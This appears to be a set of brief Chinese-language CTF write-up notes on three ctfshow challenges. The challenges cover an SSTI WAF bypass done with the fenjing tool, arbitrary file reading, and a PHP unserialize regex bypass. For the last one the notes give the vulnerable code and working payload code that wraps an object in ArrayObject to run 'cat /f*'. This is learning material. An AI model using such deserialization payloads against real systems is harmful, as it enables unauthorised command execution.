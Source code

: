 - # easy_ssti
	- 打开F12看到信息泄漏，下载源码看到SSTI和对应的WAF函数，把WAF函数丢给fenjing, ok（还顺便给fenjing加了一点新功能）
- # easy_signin
	- 任意文件读取，读index.php即可
- # easy_php
  id:: 64b2aacc-598b-4be7-b7d4-48230820277e
	- [参考](https://blog.csdn.net/m0_64815693/article/details/130038356)
	- 题目：
		- ```php
		  $data = $_GET['1+1>2'];
		  var_dump($data);
		  if(!preg_match("/^[Oa]:[\d]+/i", $data)){
		      echo "start";
		      $o = unserialize($data);
		      var_dump($o);
		  }else{
		      echo "nope";
		  }
		  ```
	- 题目要求反序列化的字符串不能为对象或者关联数组，我们可以使用自定义序列化对象ArrayObject，其反序列化后以C开头
		- ```php
		  $o = new ctfshow();
		  $o -> ctfshow = "cat /f*";
		  $o -> zzz = "a";
		  $a = new ArrayObject([114 => 514]);
		  $a -> o = $o;
		  echo urlencode(serialize($a));
		  ```
	- 对象o在执行wakeup后会立即destruct